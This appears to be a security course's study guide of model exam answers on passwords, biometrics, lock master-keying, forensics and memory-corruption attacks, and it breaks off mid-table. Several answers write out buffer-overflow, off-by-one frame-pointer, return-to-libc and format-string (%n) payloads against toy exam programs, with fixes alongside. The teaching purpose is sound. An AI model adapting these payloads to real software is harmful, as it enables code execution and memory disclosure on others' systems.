Birthday, ZIP code and biographical/security-question answers can have low effective entropy or be directly searchable. Several such questions are not independent strong secrets when all answers come from the same public biography. The account’s effective security is limited by the weakest route that can issue a fresh credential.

A stronger recovery design uses previously enrolled recovery channels/codes, short-lived single-use unpredictable reset tokens, appropriate rate limits, audit/notification, and additional verification for sensitive accounts. The delivery channel itself must be protected. Avoid user-enumeration leaks and revoke relevant old sessions after recovery. High-entropy stored answers help if a service forces security questions, but do not fix a support workflow that can bypass them.

<a id="a093"></a>
### A093 · 2019–20 · Q2(b)

**Password-space size and average brute-force time · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Password guessing, recovery and search-space calculations.

> **Question summary:** How many 10-character passwords can be made from all 128 ASCII characters? If an attacker tests one candidate per microsecond, how long does guessing take on average?

**Coverage:** related application/extension. Lecture 8 gives the guessing-attack background; the numerical model is specified by the paper.

**Exam tip.** Convert one microsecond to $10^{-6}$ seconds and apply the average-case factor 1/2. Write the exact password count before converting time units.

There are 128 choices at each of ten positions, with repetition allowed:

$$
\begin{aligned}N&=128^{10}=(2^7)^{10}=2^{70}\\&=1\,180\,591\,620\,717\,411\,303\,424,\\r&=\frac1{10^{-6}}=10^6\ \mathrm{guesses/s}.\end{aligned}
$$

Assuming the target is uniform and the attacker tries distinct candidates in some order, the expected position is (N+1)/2, effectively N/2 here:

$$
\begin{aligned}t_{\mathrm{avg}}&\approx\frac{N}{2\cdot10^6}\\&\approx5.902958\times10^{14}\ \mathrm{s}\\&\approx1.8705\times10^7\ \mathrm{years}\approx18.7\text{ million years}.\end{aligned}
$$

The near-worst-case exhaustive time is approximately 37.4 million years. Converting uses 365.25 days/year; choosing 365 changes only rounding.

The result is conditional on the paper’s full 128-character alphabet and uniform selection. Real text inputs may reject control characters, and human choices are nonuniform. The paper fixes the rate, so do not silently replace it with a different hardware assumption.

## Physical Security

Primary deck: [Ch02-Physical-Security.pdf](../slides/Ch02-Physical-Security.pdf)

<a id="a044"></a>
### A044 · 2021–22 · Q1(b)

**Biometric requirements, recognition pipeline and privacy · 10 marks**

Original: [past-paper PDF p. 15](../../CSE405-Security_Merged.pdf#page=15). Sitting date: 30 October 2023.

**Topics:** Biometrics, authentication factors, SIM and RFID.

> **Question summary:** State biometric identification requirements, describe the process, and discuss privacy-preserving challenges.

**Exam tip.** Explain both the matching error tradeoff and the permanence/revocation problem.

A usable biometric should have **universality** (most people possess it), **distinctiveness**, **permanence** and **collectability**. Practical criteria include accuracy/performance, user acceptability and resistance to circumvention.

```text
enrollment: sensor -> quality/liveness checks -> feature extraction -> protected template
recognition: new sample -> features -> compare with template(s) -> threshold decision
```

Identification searches a population (**1:N**); verification checks a claimed identity (**1:1**). Noise means matching is approximate. Thresholds trade false accepts against false rejects; false enrollment and spoofing are separate risks.

Privacy is difficult because biometrics are persistent identifiers: a stolen fingerprint is hard to revoke, templates can enable cross-database linkage, and samples may reveal more personal information than necessary. Protect templates with access controls/encryption, minimize retention, separate databases, prefer local matching where feasible and use cancellable/template-protection methods with careful threat analysis. Plainly hashing a noisy sample does not solve approximate matching. Liveness checks and another factor reduce spoofing risk but do not make a biometric secret.

<a id="a128"></a>
### A128 · 2018–19 · Q6(b)

**Pin-tumbler cross section · 7 marks**

Original: [past-paper PDF p. 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019.

**Topics:** Pin-tumbler locks and master-key extensions.

> **Question summary:** Draw a pin-tumbler lock cross section and label its parts.

**Exam tip.** The pins do not vanish or move sideways; rotation is possible because no solid pin crosses the shear line.



The fixed **housing/shell** surrounds a rotatable **plug** containing the keyway. Each chamber has a spring, a driver pin above and a key pin below. With no key or a wrong key, a solid pin crosses the shell/plug **shear line**, blocking rotation.

The correct key lifts each stack until its key-pin/driver-pin boundary lies at the shear line. The plug then rotates with the key and actuates the locking mechanism. Label springs, driver pins, key pins, key, plug, shell and shear line in the diagram.

<a id="a129"></a>
### A129 · 2018–19 · Q7(a)

**Count additional keys after three master wafers · 3 marks**

Original: [past-paper PDF p. 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019.

**Topics:** Pin-tumbler locks and master-key extensions.

> **Question summary:** A five-pin lock has driver pins of height 5 and key pins 2,4,5,2,6. Add one master wafer in each of three selected chambers. How many additional keys theoretically open it?

**Coverage:** related application/extension. The deck teaches basic pin-tumbler operation; master-wafer combinatorics is an extension.

**Exam tip.** Distinguish eight total keys from seven additional keys.

Assume the three selected chambers each gain **two distinct usable shear boundaries**, and the resulting cut choices are independent and physically valid. Each contributes two possible cut heights; unchanged chambers contribute one.
$$\text{total theoretical key profiles}=2^3=8.$$
The original working key is one profile, so the number of **additional** theoretical keys is
$$8-1=\boxed{7}.$$

Driver-pin height and the original key-pin values are not needed for this count. Real bitting restrictions, wafer dimensions or coincident/unusable boundaries can reduce it; the question says theoretically.

<a id="a130"></a>
### A130 · 2018–19 · Q7(b)

**Construct a lock accepting both stated keys · 12 marks**

Original: [past-paper PDF p. 27](../../CSE405-Security_Merged.pdf#page=27). Sitting date: 24 October 2019.

**Topics:** Pin-tumbler locks and master-key extensions.

> **Question summary:** Given L1 key-pin heights (2,4,5,2,6) and L2 (4,2,5,5,6), driver heights 5, design L3 with master wafers so both keys work, and show K1 opening it.

**Coverage:** related application/extension. Master-key construction extends the basic lock slides; the geometric interpretation is stated explicitly.

**Exam tip.** Use a shorter bottom pin plus the difference wafer; two original pin lengths placed in series do not create the intended boundaries.

Use a common key datum/shear height $H$ and interpret the supplied numbers as the key-pin lengths required by the two key profiles. In each chamber take the **smaller key pin** and a wafer equal to the absolute difference:

| Chamber | L1 pin | L2 pin | L3 key pin | Master wafer | Driver |
|---:|---:|---:|---:|---:|---:|
| 1 | 2 | 4 | 2 | 2 | 5 |
| 2 | 4 | 2 | 2 | 2 | 5 |
| 3 | 5 | 5 | 5 | none | 5 |
| 4 | 2 | 5 | 2 | 3 | 5 |
| 5 | 6 | 6 | 6 | none | 5 |

For a concrete sketch choose $H=10$. K1 lifts the stacks by $(8,6,5,8,4)$ units, since lift equals $H$ minus its corresponding original key-pin length. In chamber 1 the top of the 2-unit key pin is at $H$ (wafer above); in chamber 2 the top of key pin plus wafer is at $H$; chambers 3/5 have their ordinary boundary at $H$; chamber 4 uses the top of its 2-unit pin with wafer above. Thus no solid pin crosses the shear line.

K2 uses lifts $(6,8,5,5,4)$, selecting the alternative boundary in chambers 1,2,4. Keep adequate spring/chamber clearance for the chosen dimensions.



Three independently mastered chambers theoretically also admit six unintended mixed profiles besides the two named keys: $2^3-2=6$.

<a id="a131"></a>
### A131 · 2018–19 · Q8(a)

**Good biometric criteria · 6 marks**

Original: [past-paper PDF p. 28](../../CSE405-Security_Merged.pdf#page=28). Sitting date: 24 October 2019.

**Topics:** Biometrics, authentication factors, SIM and RFID.

> **Question summary:** Name essential and desirable characteristics of biometric authentication.

**Exam tip.** Give a short explanation of each property; “secure and fast” is too vague.

The usual core criteria are **universality**, **distinctiveness/uniqueness**, **permanence** and **collectability**. A useful implementation also needs good **performance** (speed, accuracy and robustness), **acceptability** to users and resistance to **circumvention** such as spoofed samples.

In practice these are degrees rather than absolutes: some people lack a measurable feature, samples change with age/injury, and environmental noise affects capture. Provide alternatives and evaluate false-accept/false-reject rates rather than promising perfect identity recognition.

<a id="a132"></a>
### A132 · 2018–19 · Q8(b)

**Short notes; answer any three of four · 9 marks**

Original: [past-paper PDF p. 28](../../CSE405-Security_Merged.pdf#page=28). Sitting date: 24 October 2019.

**Topics:** Faraday shielding and physical information leakage; SQL injection and prepared statements; Phishing, homographs and UI deception.

> **Question summary:** Write short notes on any three: (i) Faraday cage, (ii) blind SQL injection, (iii) impersonation token, (iv) homograph attack.

**Coverage:** related application/extension. One optional 9-mark subquestion. Faraday cage is explicit; blind SQLi/homographs extend the web deck, and OS impersonation-token details are supplementary. Do not allocate all 9 marks to every choice.

**Exam tip.** Each selected note is only 3 marks: definition, concrete mechanism/example and one limitation/defense are usually enough. The “impersonation token” terminology is not fully explained in the supplied notes, so the ambiguity is explicit rather than forced into a web-only definition.

The paper asks any three short notes; all four are supplied here.

**(i) Faraday cage.** A conducting enclosure attenuates electromagnetic fields across its boundary, helping isolate radio communications or reduce electromagnetic leakage. It can be used for shielding sensitive equipment or isolating wireless devices. Effectiveness depends on frequency, conductivity, seams, apertures and cables; an arbitrary metal box does not guarantee perfect shielding or erase stored data.

**(ii) Blind SQL injection.** Input changes SQL execution even though query results are not directly returned. An attacker infers a predicate from a page difference, an error/no-error outcome, or a controlled time delay. For example, two inputs differing only in a true/false predicate may produce consistently different responses. Prevent by binding values to prepared statements, limiting database privileges and avoiding unnecessary query/error exposure. Hiding results alone is not a fix.

**(iii) Impersonation token.** In operating-system security, a token represents an identity and associated permissions. A service may use a client’s impersonation token to perform an operation with that client’s authority rather than its own broader authority. Incorrect handling or theft can permit identity/privilege misuse. Distinguish this from a web session bearer token, whose copied value lets a requester be treated as its associated user; the precise course context should determine the intended meaning. In both cases, possession/delegation and scope matter.

**(iv) Homograph attack.** Visually similar characters in a domain or identifier create a deceptive resemblance to a trusted name. The browser’s origin/DNS string can differ while the user sees something familiar. An example is mixing Latin and visually similar Cyrillic letters. Origin-bound password managers/authenticators and careful display/identifier handling reduce the risk; a valid certificate for the lookalike domain does not certify equivalence to the real brand.

<a id="a134"></a>
### A134 · 2018–19 · Q9(b)

**Expand ICCID, IMSI and ASLR · 3 marks**

Original: [past-paper PDF p. 28](../../CSE405-Security_Merged.pdf#page=28). Sitting date: 24 October 2019.

**Topics:** Biometrics, authentication factors, SIM and RFID; StackGuard, ASLR and memory-corruption defenses.

> **Question summary:** Write the full forms of ICCID, IMSI and ASLR.

**Coverage:** related application/extension. SIM identifiers are in the physical deck/notes; ASLR is a memory-defense extension.

**Exam tip.** Write “Identity” for IMSI and “Randomization” for ASLR.

- **ICCID:** Integrated Circuit Card Identifier.
- **IMSI:** International Mobile Subscriber Identity.
- **ASLR:** Address Space Layout Randomization.

ICCID identifies the card/profile; IMSI identifies the mobile subscription. Neither should be confused with a phone number. ASLR randomizes memory locations to make address prediction harder; it does not correct an unsafe memory access.

## Operating Systems Security

Primary deck: [Ch03-OS-Security.pdf](../slides/Ch03-OS-Security.pdf)

<a id="a053"></a>
### A053 · 2021–22 · Q4(a)

**Secrets persisted in swap/hibernation · 5 marks**

Original: [past-paper PDF p. 16](../../CSE405-Security_Merged.pdf#page=16). Sitting date: 30 October 2023.

**Topics:** OS trust, paging, boot and persistent memory images.

> **Question summary:** Explain how virtual memory or a swap partition can be an attacker target.

**Exam tip.** Connect the RAM secret to its disk copy; “virtual memory is fake memory” is not an explanation.

Paging can write memory pages to disk; hibernation writes a much larger memory snapshot. Passwords, keys, documents and session tokens that were temporarily present in RAM can therefore remain in swap/hibernation storage after an application exits or the screen locks.

An attacker with physical disk access, an alternate boot path or sufficient privileges may extract those remnants, bypassing the original OS's access checks. Virtual memory itself is not a vulnerability: the exposure is sensitive state persisted without suitable protection.

Use disk/swap encryption with appropriate key handling, protect boot and physical access, restrict dump/image files and minimize secret lifetime. An encrypted disk whose key is accessible to an attacker in a live unlocked system has a different threat model.

<a id="a074"></a>
### A074 · 2020–21 · Q2(c)

**Forensic preservation: master and working images, custody · 11 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** OS trust, paging, boot and persistent memory images.

> **Question summary:** Why make two copies of digital evidence? State precautions and how to maintain chain of custody.

**Coverage:** related application/extension. OS/hibernation notes mention forensic investigation; full acquisition and custody procedures are supplementary.

**Exam tip.** Explain what each copy is for and how you establish that it faithfully represents the acquired evidence.

Keep one verified **preservation/master image** and use a separate **working copy** for examination. Analysis can alter metadata, recovery state or software behavior; a preserved baseline allows repeatable checking. Preserve the original device as well, when applicable. Merely possessing two unverified copies proves nothing.

Acquire a suitable bit-stream image using validated tools and a write blocker where appropriate. Record device identifiers, acquisition time, tool/version, operator and relevant system state. Hash the acquired image with a suitable cryptographic hash and verify copied images against it. Decide separately how to capture volatile evidence before power changes; imaging a live system may itself change data and needs documented handling.

Maintain a custody record for every transfer: evidence ID, who released/received it, timestamps, purpose, storage/location and integrity checks. Store originals/master images with restricted access and tamper-evident handling. A hash establishes consistency, while custody documentation establishes the handling history; neither substitutes for the other.

[Technical reference: NIST SP 800-86](https://nvlpubs.nist.gov/nistpubs/legacy/sp/nistspecialpublication800-86.pdf).

<a id="a075"></a>
### A075 · 2020–21 · Q3(a)

**Why preserve memory-region boundaries? · 12 marks**

Original: [past-paper PDF p. 18](../../CSE405-Security_Merged.pdf#page=18). Sitting date: 25 September 2022.

**Topics:** OS trust, paging, boot and persistent memory images; Stack/heap corruption and buffer-overflow payload reasoning.

> **Question summary:** Explain the risks of mixing heap and stack storage and give an example manipulation.

**Exam tip.** Distinguish address-space sharing from unsafe overlap or lack of bounds enforcement.

Stack storage follows call/return lifetimes; heap allocations have explicit allocator-managed lifetimes. Both usually occupy one process's **virtual address space** already. The security goal is valid bounds, lifetimes and suitable protections—not a false claim that separate labeled regions prevent all overflow.

If an unchecked heap allocation/overflow can reach live stack control data, an attacker can corrupt local state, saved frame pointers or return addresses. Conversely, an unbounded stack allocation can collide with heap mappings or other regions if guards/limits are absent. For example, copying an oversized request into a heap buffer adjacent to a control structure can overwrite a callback pointer; if storage is mixed with a stack frame, the analogous overwrite may replace the saved return address.

Region separation and guard pages reduce accidental collisions and help enforce stack/heap limits. They are not complete isolation within the process: an arbitrary write can still target either region. Use bounds/lifetime-safe code, guarded mappings, allocation checks and control-flow defenses.

## Buffer Overflow

Primary deck: [Ch03-BufferOverflow.pdf](../slides/Ch03-BufferOverflow.pdf)

<a id="a001"></a>
### A001 · 2023–24 · Q1(a)

**Trace the actual unsafe copies and construct a conditional control-flow payload · 10 marks**

Original: [past-paper PDF p. 1](../../CSE405-Security_Merged.pdf#page=1). Sitting date: 06 September 2025.

**Topics:** Stack/heap corruption and buffer-overflow payload reasoning.

> **Question summary:** For the printed 32-bit little-endian C program, decide whether hack() can be invoked and give symbolic-address payload pseudocode. All defenses are disabled; main reads 300 bytes into str[30]; overflow_in_action has buffer[300], two heap pointers, strcpy calls and an indirect callback.

**Coverage:** related application/extension. The source does not fix frame offsets or heap allocator layout. A conditional symbolic payload is justified; an unconditional offset is not.

**Exam tip.** Mark the destination and bound for every write. A stack overflow and a heap overflow have different reachable targets.

**Find all three writes before choosing an attack.** `fread(str,1,300,...)` already overflows main's 30-byte stack array. It does not append a NUL. `strcpy(buffer,str)` may also exceed 300 bytes if no earlier terminator exists. Finally, `strcpy(data->name,str)` overruns the 30-byte heap allocation for sufficiently long strings.

A robust exam answer uses the first overflow to replace **main's saved return address**, provided execution survives the intervening copies/callback and returns normally. Define $S$ as the address of `str[0]`, $R$ as the address of main's saved return word, $H$ as the address of `hack`, and $d=R-S$. Derive $d$ from the actual frame; declaration order does not specify padding/alignment.

```python
from struct import pack
# S, R, H come from the particular exam/debugger stack layout.
d = R - S
assert 30 <= d and d + 5 <= 300
payload = b'A' * d + pack('<I', H) + b'\0'
```

The terminating zero bounds subsequent copies **only if** the packed address contains no earlier zero; it does not undo their memory corruption. This payload establishes the intended overwritten return word, but success is conditional on heap layout, valid pointer variables, allocation metadata and successful return from `overflow_in_action`. A chain may need to preserve intervening words. If `hack` returns, a valid continuation is also needed.

**Do not invent a heap adjacency guarantee.** `ptr` is allocated before `data`; an ordinary forward overflow from `data->name` does not necessarily overwrite the earlier callback allocation. Also `ptr->fp=random_print` is assigned after the stack copy. The printed C plus “all defenses disabled” does not determine a universal byte-exact successful payload. State the layout/survival assumptions instead of claiming that 30 heap bytes automatically reach `fp`.

**Fix:** read at most `sizeof str-1` bytes, terminate explicitly, validate lengths before both copies, and eliminate unnecessary mutable callback/heap state.

<a id="a005"></a>
### A005 · 2023–24 · Q2(b)

**Leaked stack address and one-byte saved-frame-pointer overwrite · 10 marks**

Original: [past-paper PDF p. 3](../../CSE405-Security_Merged.pdf#page=3). Sitting date: 06 September 2025.

**Topics:** Stack/heap corruption and buffer-overflow payload reasoning; StackGuard, ASLR and memory-corruption defenses.

> **Question summary:** 32-bit x86 with ASLR: main prints simple[32] address and reads with fgets(simple,32). hack copies nine input bytes backward into buf[8]. Construct inputs for a 31-byte shellcode, identifying necessary stack-layout assumptions.

**Coverage:** related application/extension. Compiler local ordering, padding and the location of a surviving fake frame are not specified, so the intended off-by-one exploit is conditional.

**Exam tip.** A leaked address bypasses secrecy, not bounds checks or frame-layout constraints. Show both the one-byte overwrite and the later pivot.

The first input can put the **31-byte shellcode** in `simple`; `fgets(...,32,...)` reads at most 31 bytes and appends NUL. The printed address $S$ reveals its location despite ASLR. Shellcode bytes must be suitable for this input path (in particular, avoid an early newline). Executable stack is assumed because other defenses are disabled.

The second read fills `input[9]` exactly. The loop's first write is `buf[8]=input[8]`, one byte beyond `buf`. The intended exploit is an **off-by-one saved-EBP overwrite**. This requires `buf+8` to be the low byte of saved EBP; compiler padding or a different local ordering defeats that premise. The source alone does not establish this layout.

With a `leave; ret` epilogue, corrupting hack's saved EBP changes the EBP restored in main. When main later executes `leave`, it pivots ESP to a chosen address $F$. The word at $F$ is treated as saved EBP and the word at $F+4$ as the return address. Place $S$ at $F+4$ and arrange a usable continuation. Because only one byte is changed, $F$ must share the original saved frame pointer's upper 24 bits; a low-byte wrap cannot change the other bytes.

One possible **conditional layout** puts a fake two-word frame in the eight controlled bytes of `buf`, sets the ninth byte to the low byte of its address, and returns into `simple`. It additionally requires that this memory survive main's epilogue and that saved EBP has the required upper bytes. Alternatively place a fake frame in another controlled area satisfying the same constraints. A 31-byte shellcode already consumes almost all of `simple`; do not silently also assume eight extra writable frame bytes fit there.

Under that intended layout, define $F$ as the address of `buf[0]` and $M$ as main's original frame pointer. The second input has the concrete symbolic form:

```python
from struct import pack
assert (F & 0xffffff00) == (M & 0xffffff00)
second_input = pack('<I', 0x41414141) + pack('<I', S) + bytes([F & 0xff])
# 8 bytes form the fake frame in buf; byte 9 alters saved EBP.
```

The first input is the stipulated 31-byte shellcode itself; `fgets` supplies its terminating NUL. The fake frame's first word becomes EBP after main's `leave`, while its second word transfers to $S$. A shellcode that does not return avoids needing a valid later stack continuation. Without the assumed adjacency/address relation this byte sequence is not guaranteed to work.

<a id="a083"></a>
### A083 · 2020–21 · Q5(c)

**Four defenses against return-to-libc · 10 marks**

Original: [past-paper PDF p. 19](../../CSE405-Security_Merged.pdf#page=19). Sitting date: 25 September 2022.

**Topics:** Return-to-libc and calling conventions; StackGuard, ASLR and memory-corruption defenses.

> **Question summary:** Briefly explain four countermeasures against return-to-libc attacks.

**Coverage:** related application/extension. Buffer-overflow basics are taught; code reuse and several defense mechanisms require supplementary material.

**Exam tip.** State what each defense interrupts and one relevant limitation; do not count “NX” as if it prevents code reuse by itself.

1. **Remove the memory-corruption primitive:** bounded operations, correct allocation/lifetime checks and memory-safe implementation prevent the overwrite used to redirect control.
2. **Stack canaries:** verify a protected value before returning to detect many contiguous overwrites of saved control data. Leaks and noncontiguous writes can bypass this protection.
3. **ASLR with PIE and randomized libraries:** make target code/data addresses hard to predict. Information leaks and weak entropy reduce its effectiveness.
4. **Control-flow/return protection:** a protected shadow stack checks return addresses; suitable CFI constrains indirect transfers. These directly limit forged return/call chains, subject to the mechanism's coverage.

A non-executable stack alone is **not** a sufficient return-to-libc defense: the attack reuses existing executable code. W^X/NX still reduces code-injection options and belongs in layered protection.

<a id="a085"></a>
### A085 · 2020–21 · Q6(c)

**Place system arguments using 32-bit cdecl · 10 marks**

Original: [past-paper PDF p. 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022.

**Topics:** Return-to-libc and calling conventions.

> **Question summary:** Using diagrams, determine placement of the system() argument in a return-to-libc attack.

**Coverage:** related application/extension. The supplied C/stack material is background; the cdecl libc-chain layout is an extension.

**Exam tip.** Simulate ESP after each `ret`; that removes the common off-by-four mistake.

Assume the paper's conventional **32-bit x86 cdecl** frame and a vulnerable function whose saved return address can be overwritten. Let $R$ denote that saved return slot, $S$ the address of `system`, $E$ a usable continuation such as `exit`, and $B$ a valid pointer to the NUL-terminated command string in this toy layout.

```text
higher addresses
R+8   B       first argument to system
R+4   E       system's apparent return address
R     S       vulnerable function's overwritten return address
... padding/local buffer ...
lower addresses
```

When the vulnerable function executes `ret`, it loads EIP from $R$ and ESP becomes $R+4$. On entry, `system` expects its return address at `[ESP]` and its first argument at `[ESP+4]`, so the argument belongs at **R+8**, not immediately after the overwritten return word.

If `system` returns, a safe continuation needs its own correctly arranged arguments/frame; simply writing an `exit` address does not guarantee a clean exit status argument. Addresses, offset to $R$, input NUL constraints, ASLR and canary state must be established for the exact program.



This arrangement does not carry over unchanged to x86-64 ABIs, which generally pass initial arguments in registers.

<a id="a086"></a>
### A086 · 2020–21 · Q7(c)

**StackGuard check and scope · 10 marks**

Original: [past-paper PDF p. 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022.

**Topics:** StackGuard, ASLR and memory-corruption defenses.

> **Question summary:** Define StackGuard and explain with a diagram how it counters buffer overflow.

**Exam tip.** Put the check before control transfer and state which overwrite path crosses the canary.

StackGuard is a compiler-inserted stack-canary defense. A protected word is placed between vulnerable stack storage and saved control data in a function frame. Before returning, generated code checks that the canary still equals its expected value; a mismatch aborts rather than using a corrupted return address.

```text
higher addresses: caller state / return address
                  saved frame pointer
                  CANARY  <-- checked before return
                  local arrays / other locals
lower addresses
```

A conventional sequential overflow from a local buffer toward the return address must cross the canary. Random canaries make an unseen correct replacement difficult; some historical schemes use terminator values to obstruct string copying. Exact frame ordering depends on implementation.

This **detects some corruption**, not the unsafe write itself. A canary leak, an overwrite that skips the canary, corruption of non-control data or a heap attack may avoid the check. A process may also be harmed before reaching its epilogue. Combine it with bounds-safe code, ASLR, NX and control-flow protection.

<a id="a087"></a>
### A087 · 2020–21 · Q8(a)

**Audit scanf, privileged file opening and a name-based access race · 15 marks**

Original: [past-paper PDF p. 20](../../CSE405-Security_Merged.pdf#page=20). Sitting date: 25 September 2022.

**Topics:** Stack/heap corruption and buffer-overflow payload reasoning; Unix permissions, setuid and filesystem access; Security principles and scenario analysis.

> **Question summary:** Analyze attacks on the printed C program (code on p. 21): scanf into buffer[60], fopen(fn,"a+"), access(fn,W_OK), fwrite; state environmental assumptions.

**Coverage:** related application/extension. Unsafe C, Unix privileges and complete-mediation principles support the answer; the exact race analysis is an application.

**Exam tip.** Trace object identity through the descriptor. This example is an open-then-check race, not the usual check-then-open ordering.

**Unbounded input:** `scanf("%s",buffer)` has no width, so an input exceeding the 60-byte array (including its terminator) can corrupt neighboring locals or saved control state. A specific control-flow attack depends on frame layout, address knowledge, protections and process privileges. Use a bounded read, check its result and handle long input deliberately.

**Privilege/identity mismatch:** if this is a setuid program, `fopen` uses effective-identity permissions, whereas `access` ordinarily checks the real identity. Opening before the authorization decision may already create a file or otherwise have effects; the program should not acquire unauthorized capabilities and then rely on a later pathname check.

**Name race, with the printed order preserved:** the code opens `fn` **before** `access`. In a writable directory an attacker can arrange for the name to resolve to a protected target during `fopen`, then replace the name with an allowed file before `access`. The check succeeds for the new name, but `fp` still refers to the originally opened target, so `fwrite` affects that object. This requires a useful effective privilege and attacker control of the pathname/directory (plus applicable symlink protections). A literal fixed relative pathname is not automatically attacker-controlled.

Other defects include unchecked `fopen` failure and insufficient handling of I/O errors. `strlen` also requires a valid terminated input string.

**Repair:** avoid setuid where possible; drop privileges before opening; use a trusted directory/descriptor-based access strategy, constrain symlink traversal as appropriate, and operate on the verified opened object. A separate earlier `access` followed by `fopen` would still be race-prone.

<a id="a090"></a>
### A090 · 2019–20 · Q1(b)

**Heartbleed as an out-of-bounds read · 12 marks**

Original: [past-paper PDF p. 22](../../CSE405-Security_Merged.pdf#page=22). Sitting date: 07 September 2021.

**Topics:** Stack/heap corruption and buffer-overflow payload reasoning; HTTP/HTTPS and browser trust.

> **Question summary:** Define Heartbleed and explain its major consequences.

**Coverage:** related application/extension. The buffer deck teaches memory-bound errors; the particular OpenSSL case is supplementary.

**Exam tip.** Name the trust error: using the peer's claimed length instead of validating it against the actual received buffer.

Heartbleed (CVE-2014-0160) was a missing-bounds-check bug in affected OpenSSL TLS/DTLS heartbeat handling. A peer supplied a small payload but claimed a larger length; the implementation copied the claimed number of bytes from process memory into its reply without checking that those bytes belonged to the received payload.

This is a **buffer over-read/information disclosure**, not intrinsically an overwrite or a break of TLS mathematics. A request could expose up to roughly 64 KiB of nearby memory, and repetition could expose more. Possible leaked values included passwords, session tokens, application data and private-key material present in that process; any particular secret's presence was not guaranteed.

Patch affected software and restart it so vulnerable processes are gone; then replace potentially exposed keys/certificates and reset affected credentials/sessions as appropriate. Replacing a certificate without fixing the vulnerable process can expose the new key again. Network encryption does not protect secrets the endpoint itself mistakenly returns.

[Original disclosure](https://www.heartbleed.com/).

<a id="a133"></a>
### A133 · 2018–19 · Q9(a)

**Four format-string tasks using the stated stack-word cursor · 12 marks**

Original: [past-paper PDF p. 28](../../CSE405-Security_Merged.pdf#page=28). Sitting date: 24 October 2019.

**Topics:** Format-string reads and writes.

> **Question summary:** For gets(user_input); printf(user_input), construct inputs to print secret1, change secret1, print secret2 and print secret3. Cursor starts 0xaabbcc20; secret1=0xaabbcc34, secret2=0xaabbcc38, secret3=0x11223344, input=0xaabbcc50; integers are 4 bytes.

**Coverage:** related application/extension. The slides teach unsafe C but do not develop format-string exploitation; the paper supplies a special cursor model.

**Exam tip.** `%x` consumes a value; `%s` and `%n` consume a pointer. Keep those roles separate.

Adopt the paper's toy convention that the first variadic word consumed by a conversion is at **0xaabbcc20**, with 4-byte progression. Real `printf` has no portable exposed “internal pointer,” so these offsets are an explicit exam model.

The word index (1-based) for address $a$ is
$$j=1+\frac{a-\mathtt{0xaabbcc20}}4.$$
Thus secret1's slot is 6, secret2 begins at 7, and the first controlled input word is slot 13. Assume little-endian and a `printf` dialect supporting positional conversions.

| Task | Toy input bytes | Meaning |
|---|---|---|
| Print secret1 integer | `b'%6$x'` (or `%6$d`) | Read slot 6 as the integer, not as a pointer. |
| Modify secret1 | `b'\x34\xcc\xbb\xaa%13$n'` | Controlled slot 13 contains its address; `%n` writes the number printed so far (4 for this literal prefix). |
| Print secret2 string | `b'\x38\xcc\xbb\xaa%13$.10s'` | Dereference its address, displaying at most 10 bytes. |
| Print secret3 string | `b'\x44\x33\x22\x11%13$.10s'` | Dereference address 0x11223344, even in a different frame; assumes those 10 bytes are readable. |

For secret1, skipping five 4-byte words with five `%08x` conversions then using `%x` is the non-positional conceptual equivalent. Do **not** use `%6$n` to modify the integer: that interprets secret1's current value as an address. The supplied address must be placed in a controlled argument slot.

The raw address bytes in the Python byte literals must actually be supplied as bytes; typing the characters `\x34` at runtime does not make `printf` decode a C string escape. The paper's hint confusing C lexical escapes and runtime format parsing should not be copied literally. String termination, input newlines and implementation support must be checked.

Fix by using a constant format: `printf("%s",user_input)` and a bounded read. This removes the attacker-controlled format rather than filtering selected percent sequences.

<a id="a135"></a>
### A135 · 2018–19 · Q10

**Toy stack frames and an alphabet-only return target · 15 marks**

Original: [past-paper PDF p. 29](../../CSE405-Security_Merged.pdf#page=29). Sitting date: 24 October 2019.

**Topics:** Stack/heap corruption and buffer-overflow payload reasoning.

> **Question summary:** For the printed main/foo/bar C snippets, draw all frames using supplied addresses and create alphabet-only sample.txt so bar returns directly to main. Each source instruction is stipulated to occupy one byte; integer=4 bytes.

**Coverage:** related application/extension. Stack reasoning is taught, but this question imposes artificial instruction sizes/frame addresses and leaves the file-read body unspecified.

**Exam tip.** Show both the alphabetic return address and the invalid restored-frame caveat. A control transfer is weaker than clean continued execution.

Use the problem's **toy 32-bit frame-pointer model** (downward stack, saved EBP at EBP and return at EBP+4). It is intentionally not a realistic compiler/ISA layout. Given frame pointers are main **0xaabbccdd**, foo **0xaabbddcc**, bar **0xaaccbbdd**.

| Frame | Slot | Address/value |
|---|---|---|
